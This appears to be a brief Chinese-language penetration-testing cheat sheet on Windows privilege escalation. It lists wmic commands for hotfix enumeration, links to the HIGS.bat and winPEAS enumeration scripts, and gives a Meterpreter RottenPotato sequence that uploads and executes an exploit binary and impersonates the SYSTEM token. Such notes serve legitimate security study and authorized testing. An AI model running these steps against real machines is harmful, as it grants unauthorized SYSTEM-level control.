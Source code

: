 #  信息收集

wmic qfe get Caption,Description,HotFixID,InstalledOn
wmic qfe get Caption,Description,HotFixID,InstalledOn | findstr /C:“KBxxxxxx”

# 04自动信息收集
Host Information Gathering Script：HIGS.bat
https://github.com/myh0st/scripts/blob/master/Windows%E4%B8%8B%E4%BF%A1%E6%81%AF%E6%94%B6%E9%9B%86/HIGS.bat
privilege-escalation-awesome-scripts：winPEAS.bat
https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/blob/master/winPEAS/winPEASbat/winPEAS.bat

# 提权工具脚本
RottenPotato：
将服务帐户本地提权至SYSTEM
load incognito
list_tokens –u
upload /root/rottenpotato.exe .
execute -Hc -f rottenpotato.exe
impersonate_token “NT AUTHORITY\SYSTEM”
将SYSTEM token添加到impersonate user tokens下

https://blog.csdn.net/weixin_43873557/article/details/113760973
